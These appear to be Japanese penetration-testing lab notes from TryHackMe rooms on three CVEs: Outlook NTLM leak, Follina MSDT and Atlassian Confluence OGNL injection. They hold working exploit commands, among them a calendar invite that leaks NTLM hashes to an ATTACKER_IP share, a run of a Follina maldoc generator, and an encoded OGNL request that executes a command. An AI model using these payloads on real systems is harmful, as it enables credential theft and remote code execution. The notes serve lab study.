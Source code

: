 ### 自動エクスプロイト

https://github.com/api0cradle/CVE-2023-23397-POC-Powershell

```ps
Import-Module .\CVE-2023-23397.ps1

Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\ATTACKER_IP\foo\bar.wav" -meetingsubject "THM Meeting" -meetingbody "This is just a regular meeting invitation :)"
```

## CVE-2022-30190 (Follina MSDT)

https://tryhackme.com/room/follinamsdt

- Microsoft Support Diagnostic Tool

### エクスプロイト

https://github.com/JohnHammond/msdt-follina

```sh
root@ip-10-10-118-34:~/Rooms/Follina-MSDT# python3.9 follina.py -i ens5
[+] copied staging doc /tmp/mhhf08bg
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

```sh
root@ip-10-10-118-34:~/Rooms/Follina-MSDT# python3 -m http.server 3456
Serving HTTP on 0.0.0.0 port 3456 (http://0.0.0.0:3456/) ...
```

```ps
C:\Users\Administrator\Desktop>curl http://[attackbox IP]:3456/follina.doc -o follina.docx
curl: (3) [globbing] bad range in column 9
curl: (3) [globbing] unmatched close brace/bracket in column 3
```

## CVE-2022-26134 (Atlassian)

https://tryhackme.com/room/cve202226134

- 認証情報不要 RCE
- `1.3.0 -> 7.4.17`, `7.13.0 -> 7.13.7`, `7.14.0 -> 7.14.3 `, `7.15.0 -> 7.15.2 `, `7.16.0 -> 7.16.4`, `7.17.0 -> 7.17.4`, `7.18.0 -> 7.18.1 `,

### エクスプロイト

OGNL (Object-Graph Navigation Language) を悪用する。  
例えば `touch /tmp/thm` を実行したい場合、下記リクエストを送る。

```sh
curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/
```
